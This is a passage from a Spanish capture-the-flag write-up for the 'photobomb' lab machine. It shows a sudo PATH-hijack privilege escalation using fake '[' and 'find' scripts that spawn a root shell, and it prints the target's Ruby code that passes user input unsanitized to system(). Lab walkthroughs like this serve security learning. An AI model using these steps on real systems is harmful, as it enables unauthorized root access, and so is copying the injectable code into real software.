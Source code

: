 Sabiendo esto, se vio que el script comprueba que el fichero `photobomb.log` no sea un enlace simbolico y que no este vacio usando el `[`, asi que podemos crear un fichero en nuestra ruta con el mismo nombre y agregarlo al principio de $PATH al ejecutarlo con sudo:

{% highlight bash %}
wizard@photobomb:/dev/shm$ cat '['
#!/bin/bash
bash
wizard@photobomb:/dev/shm$ chmod +x '['
wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/dev/shm#
{% endhighlight %}

Ahora simplemente tomamos la última flag

{% highlight bash %}
root@photobomb:~# ls
root.txt
root@photobomb:~# cat root.txt
3c7ab9a614efe315b0475***********
root@photobomb:~# 
{% endhighlight %}

<h2>EXTRA</h2>

Hablando de que el script no ejecuta `find` con la ruta absoluta, podrías hacer lo mismo que con `[`:

{% highlight bash %}
wizard@photobomb:/dev/shm$ cat find
#!/bin/bash
bash
wizard@photobomb:/dev/shm$ chmod +x find
wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/dev/shm#
{% endhighlight %}

La inyección de comandos ocurre por la siguiente parte del bloque de /printer:

{% highlight ruby %}
  filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
  end

  if File.exists?('resized_images/' + filename)
    halt 200, {}, IO.read('resized_images/' + filename)
  end

  #message = 'Failed to generate a copy of ' + photo + ' resized to ' + dimensions + ' with filetype ' + filetype
  message = 'Failed to generate a copy of ' + photo
  halt 500, message
end
{% endhighlight %}

